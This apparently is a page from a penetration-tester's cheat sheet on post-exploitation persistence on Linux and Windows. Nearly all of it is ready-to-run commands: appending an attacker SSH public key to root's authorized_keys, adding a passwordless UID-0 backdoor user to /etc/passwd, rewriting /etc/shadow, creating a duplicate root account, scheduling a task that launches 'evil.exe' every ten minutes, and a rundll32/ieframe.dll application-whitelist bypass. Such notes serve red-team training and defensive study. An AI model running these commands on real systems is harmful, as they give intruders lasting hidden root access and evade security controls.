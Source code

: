 ### Creating SSH Authorized Keys 
```bash
mkdir /root/.ssh 2>/dev/null; echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChKCUsFVWj1Nz8SiM01Zw/BOWcMNs2Zwz3MdT7leLU9/Un4mZ7vjco0ctsyh2swjphWr5WZG28BN90+tkyj3su23UzrlgEu3SaOjVgxhkx/Pnbvuua9Qs9gWbWyRxexaC1eDb0pKXHH2Msx+GlyjfDOngq8tR6tkU8u1S4lXKLejaptiz0q6P0CcR6hD42IYkqyuWTNrFdSGLtiPCBDZMZ/5g1cJsyR59n54IpV0b2muE3F7+NPQmLx57IxoPjYPNUbC6RPh/Saf7o/552iOcmVCdLQDR/9I+jdZIgrOpstqSiJooU9+JImlUtAkFxZ9SHvtRbFt47iH7Sh7LiefP5 root@kali' >> /root/.ssh/authorized_keys
```

### Creating Backdoor User w/o Password
```bash
echo 'spotless::0:0:root:/root:/bin/bash' >> /etc/passwd

# Rarely needed, but if you need to add a password to the previously created user by using useradd and passwd is not working. Pwd is "kali"
sed 's/!/\$6$o1\.HFMVM$a3hY6OPT\/DiQYy4koI6Z3\/sLiltsOcFoS5yCKhBBqQLH5K1QlHKL8\/6wJI6uF\/Q7mniOdq92v6yjzlVlXlxkT\./' /etc/shadow > /etc/s2; cat /etc/s2 > /etc/shadow; rm /etc/s2
```

### Creating Another Root User
```bash
useradd -u0 -g0 -o -s /bin/bash -p `openssl passwd yourpass` rootuser
```

### Generating OpenSSL Password
```bash
openssl passwd -1 password 
# output $1$YKbEkrkZ$7Iy/M3exliD/yJfJVeTn5.
```

### Persistent Back Doors
```bash
# Launch evil.exe every 10 minutes
schtasks /create /sc minute /mo 10 /tn "TaskName" /tr C:\Windows\system32\evil.exe
```

## Code Execution / Application Whitelist Bypass
### leframe.ddl
cmd
```powershell
rundll32 c:\windows\system32\ieframe.dll,OpenURL c:\temp\test.url
```

test.url
```powershell
[internetshortcut]
url=c:\windows\system32\calc.exe
```





